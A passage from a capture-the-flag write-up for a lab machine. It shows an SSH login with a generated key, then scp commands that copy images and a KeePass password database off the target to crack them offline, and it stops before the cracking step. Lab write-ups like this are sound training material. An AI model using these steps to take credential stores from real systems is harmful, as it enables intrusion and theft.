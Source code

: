 

Now I can ssh in:



    root@kali# ssh -i ~/id_rsa_generated user@10.10.10.147
    The authenticity of host '10.10.10.147 (10.10.10.147)' can't be established.
    ECDSA key fingerprint is SHA256:SLbYsnF/xaUQIxRufe8Ux6dZJ9+Jler9PTISUR90xkc.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.10.10.147' (ECDSA) to the list of known hosts.
    Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sat Jul 27 16:55:57 2019 from 10.10.14.6
    user@safe:~$ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)



## Priv: user --\> root

### Enumeration

In the home directory, there's a few files besides `user.txt`:



    user@safe:~$ ls
    IMG_0545.JPG  IMG_0546.JPG  IMG_0547.JPG  IMG_0548.JPG  IMG_0552.JPG  IMG_0553.JPG  myapp  MyPasswords.kdbx  user.txt



I'll use `scp` to pull them back:



    root@kali# scp -i ~/id_rsa_generated user@10.10.10.147:~/IMG* .
    IMG_0545.JPG                                                       100% 1863KB 944.7KB/s   00:01    
    IMG_0546.JPG                                                       100% 1872KB   1.6MB/s   00:01    
    IMG_0547.JPG                                                       100% 2470KB   2.0MB/s   00:01    
    IMG_0548.JPG                                                       100% 2858KB   1.5MB/s   00:01    
    IMG_0552.JPG                                                       100% 1099KB   1.6MB/s   00:00    
    IMG_0553.JPG                                                       100% 1060KB   2.3MB/s   00:00    
    root@kali# scp -i ~/id_rsa_generated user@10.10.10.147:~/*.kdbx .
    MyPasswords.kdbx                                                   100% 2446    61.1KB/s   00:00



### Cracking

I used this one liner to create a file with seven hashes: one for the
database by itself, and then one each for the database with each of the
six images as keyfiles:
